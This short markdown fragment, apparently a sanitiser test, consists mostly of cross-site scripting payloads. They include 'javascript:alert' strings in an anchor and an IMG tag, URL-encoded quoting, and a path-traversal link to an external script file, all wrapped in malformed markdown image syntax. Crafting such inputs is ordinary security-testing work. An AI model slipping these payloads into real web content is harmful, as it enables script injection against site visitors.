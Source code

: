 ![
%0a
<a href="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="javascript:alert(1)"/>

<IMG SRC= color=javascript%3aalert(&quot;XSS&quot;) >
  
](()
